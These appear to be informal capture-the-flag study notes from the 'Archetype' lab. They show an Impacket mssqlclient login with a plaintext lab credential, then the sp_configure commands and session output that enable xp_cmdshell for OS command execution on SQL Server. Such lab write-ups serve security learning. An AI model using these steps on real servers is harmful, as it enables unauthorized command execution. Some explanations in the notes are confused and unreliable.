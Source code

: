 Strangely I had to put usr and password together. If I put just the user I cant log in


```
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.240.65 -windows-auth
```

I need this tool ,really i dont know for what:

1. git clone [https://github.com/SecureAuthCorp/impacket.git](https://github.com/SecureAuthCorp/impacket.git)  
2. Navigate to the folder - **cd impacket** 
3. pip3 install -r requirements.txt  
4. python3 setup.py install


The command xp_cmdshell inside of "mssqlclient.py" is executable

```
El xp_cmdshell **es un procedimiento extendido muy potente que se lo utiliza para ejecutar la línea de comandos de Windows (cmd)**. Este comando es bastante útil para ejecutar tareas en el sistema operativo tales como copiar archivos, crear carpetas, compartir carpetas, etc. mediante T-SQL.
```

if I execute this:

```
EXEC xp_cmdshell 'net-user'
```
or
```
xp_cmdshell
```

This is the error :
```
ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

this activates it 
```
SELECT is_srvrolemember('sysadmin');
```

Here microsoft gives us the way to activate it ..

![[Screenshot_2023-08-31_20_33_39.png]]


This is the order
```
EXECUTE sp_configure 'show advanced options',1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell',1;  
RECONFIGURE;
```
This is the messages of the order from the input, the input and the output
```
SQL (ARCHETYPE\sql_svc  dbo@master)> EXECUTE sp_configure 'show advanced options' ,1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE;
SQL (ARCHETYPE\sql_svc  dbo@master)> EXECUTE sp_configure 'xp_cmdshell' ,1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE;

```
